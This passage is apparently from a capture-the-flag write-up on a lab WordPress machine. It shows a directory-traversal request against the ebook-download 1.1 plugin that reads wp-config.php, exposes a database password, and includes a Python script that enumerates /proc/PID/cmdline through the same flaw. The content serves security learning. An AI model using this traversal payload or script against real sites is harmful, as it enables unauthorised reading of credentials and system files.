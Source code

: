 Also interesting directory is */wp-conten/plugins* strange part is that wpscan doesn't highlight that. Let's check it out.

![Screenshot from 2022-04-25 22-58-52](https://user-images.githubusercontent.com/79413473/165141957-173dcb0e-96cb-4e4f-b40c-d22664a3e2b3.png)

Now reading version from **ebook-download** plugin i.e. 1.1. There exist a vulnerability for this version. [Here](https://www.exploit-db.com/exploits/39575).

Look like there is directory-trvaersal vulnerability with bookdownload url.

```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
this *filedownload.php* exist also in our plugin. Let's test it and it works

![Screenshot from 2022-04-25 23-03-21](https://user-images.githubusercontent.com/79413473/165142774-9f067ff3-be47-4673-978f-47260cef8269.png)

![Screenshot from 2022-04-25 23-03-11](https://user-images.githubusercontent.com/79413473/165142781-ca2c3308-14e7-4bf9-abca-b9174adc7d47.png)

From *wp-config.php* we got database password let's try to login on wordpress with this **admin:MQYBJSaD#DxG6qbm** in case password is reused.

It didn't work. I tried to ssh with this password and user `user` from /etc/passwd. As we have directory traversal we can always enumerate process on machine from */proc/PID/cmdline*

Now i wrote a script to do that for enumerating processes from 1 to 1000 and filter some garbage from output like `<script>window.close()</script>`.
You can do it same in bash as well easily.
```
#!/usr/bin/env python

import requests

for i in range(1,1000):
    param=f'../../../../../../proc/{i}/cmdline'
    r=requests.get('http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='+param)
    print(i,end=' ')
    print(r.text[3*len(param):-31])
```
![Screenshot from 2022-04-25 23-38-49](https://user-images.githubusercontent.com/79413473/165148335-671b7c89-312c-4914-b152-99be94953651.png)

Now this process is very tiring as it sends one request at a time and wait for it to finish then second task starts. But in asynchronous programming one task starts and allows next task to execute also and later they both can get their reponses back and resynchronize. 0xdf did this in a [video](https://www.youtube.com/watch?v=rn3R92y5Wlg). This is something which i also wanted to learn for a long time as this exact scenario i face very often. So i wanted to learn about multithreading in python to do tasks fatser.

*Ps: keep in mind multithreading and asynchronous isn't same thing,multithreading is one form of asynchronous programming you can read more [here](https://www.baeldung.com/cs/async-vs-multi-threading)*


Now i found [this](https://www.twilio.com/blog/asynchronous-http-requests-in-python-with-aiohttp) post about asynchronous requests. Well in python anything can be asynchronous. But saw my script was very fast compared to what i had before but i couln't read output instead my script was returning coroutine objects. I ended up consuming few videos and blogs also watched 0xdf video to figure out response.
